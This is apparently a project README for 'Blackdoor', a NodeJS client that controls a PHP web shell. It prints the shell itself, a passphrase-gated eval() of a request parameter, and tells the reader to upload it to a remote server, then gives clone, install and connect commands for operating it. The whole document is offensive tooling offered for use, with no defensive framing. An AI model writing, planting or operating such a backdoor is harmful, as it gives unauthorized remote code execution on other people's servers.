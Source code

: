 <img src="imgs/logo.png" alt="Blackdoor logo" width="350px">

Blackdoor is an NodeJS client for a simple `eval()` backdoor in PHP 

## Screenshots

<img src="imgs/cap1.png" height="200px"> <img src="imgs/cap2.png" height="200px">

## How to use

First, upload a PHP backdoor on remote server, like this :

```php
if(isset($_REQUEST['c']) && $_REQUEST['p'] == 'your-passphrase')
eval($_REQUEST['c']);
```

Locally, clone this project and install the dependencies:

```bash
git clone https://github.com/camillebaronnet/blackdoor.git
cd blackdoor
npm install
```

Now, you can connect :
```bash
./blackdoor.js -u http://exemple.com/backdoor.php -p your-passphrase
```

## Existing commands

All commands are available here : [commands/](commands/)

